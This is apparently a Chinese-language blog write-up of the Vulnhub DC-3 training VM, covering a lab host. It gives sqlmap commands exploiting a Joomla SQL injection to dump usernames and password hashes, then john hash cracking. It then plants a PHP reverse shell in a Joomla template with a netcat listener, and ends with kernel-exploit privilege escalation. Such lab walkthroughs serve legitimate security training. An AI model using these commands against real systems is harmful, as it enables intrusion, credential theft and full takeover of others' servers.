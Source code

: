 ```yaml
---
title: DC-3
tags:
  - Vulnhub
  - DC-3
categories: 
  - 渗透靶机训练
typora-root-url: DC-3
description: A bit hard DC-3 Challenge
excerpt: A bit hard DC-3 Challenge
abbrlink: 25016
date: 2021-03-24 23:17:09
---
```


# DC-3

> 这个靶机有点难搞，尤其是最后提权

## 基础信息收集

先使用NMAP扫描了一下：

![image-20210324233801085](image-20210324233801085.png)

得到一个关键信息，即后台是**Joomla**。

相比之下，nikto就没有带来太多有用的信息了，不过倒是给我们爆出了许多目录：

![image-20210324234001366](image-20210324234001366.png)

## 基于Joomla深入

知道了后台是Joomla后，首先判断一下Joomla的版本：

```bash
joomscan -u 192.168.145.136
```

**joomscan**是Kali里有的，一开始不知道还去github找了下。

关键信息如下：

![image-20210324234206504](image-20210324234206504.png)

然后搜一下这个版本是否存在漏洞，居然搜出来一个SQL注入：

![image-20210324234307736](image-20210324234307736.png)

找到sqlmap 用法：

![image-20210324234415324](image-20210324234415324.png)

## SQL注入

由于**exploit-db**已经提供了**sqlmap**的用法，因此后面的步骤相对简单，使用sqlmap跑出数据库：

```bash
sqlmap -u "http://192.168.145.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --dbs
```



![image-20210324234645951](image-20210324234645951.png)

跑出数据库**joomladb**的表：

```bash
sqlmap -u "http://192.168.145.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables
```

![image-20210324235005327](image-20210324235005327.png)

跑出user表：

```bash
sqlmap -u "http://192.168.145.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" --columns
```

![image-20210324235335128](image-20210324235335128.png)

然后再爆出username和password：

```bash
sqlmap -u "http://192.168.145.136/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" -C username,password --dump
```

![image-20210324235452765](image-20210324235452765.png)

然后使用**john**破一下hash密码：

```bash
john --crack-status pwd.hash
```

由于我已经crack过了，这里展示一下结果：

![image-20210324235726459](image-20210324235726459.png)

然后通过这个登录到系统。

## Joomla后台

![image-20210324235813269](image-20210324235813269.png)

经Google，Joomla的模板可以修改。

在**beez3**模板的根目录下加一个shell的php文件，这个文件的内容可以参考：

```bash
/usr/share/webshells/php/php-reverse-shell.php
```

我这里用的就是这个。

稍微修改一下内容：

![image-20210325000142914](image-20210325000142914.png)

将IP改为自己主机的IP。

保存后访问的地址为：http://192.168.145.136/templates/beez3/shell.php

如果修改的是另一个模板，那就把beez3换成模板名。

在访问之前，在自己的主机上开一个端口监听接受反弹shell：

```bash
nc -nvlp 1234
```

然后访问该地址，成功拿到反弹shell：

![image-20210325000321124](image-20210325000321124.png)

## 提权

这里的提权折腾了很久，思维固定在DC-1和DC-2的类似提权手法，浪费了许多时间。

![image-20210325000422798](image-20210325000422798.png)

根据连接信息可以判断Linux版本，然后判断Ubuntu版本：

![image-20210325000515777](image-20210325000515777.png)

搜索一下：

```bash
searchsploit linux kernel 4.4
```

![image-20210325000836006](image-20210325000836006.png)

完美符合所有条件。

在exploit-db上找用法，然后：

去这个地址下载**exploit.tar**：[https://bugs.chromium.org/p/project-zero/issues/detail?id=808](https://bugs.chromium.org/p/project-zero/issues/detail?id=808)

然后全部传到DC-3的服务器上，如果网络环境运行可以直接在服务器上wget从Github下。

然后编译执行：

![image-20210325002900300](image-20210325002900300.png)

成功拿到Root权：

![image-20210325003610992](image-20210325003610992.png)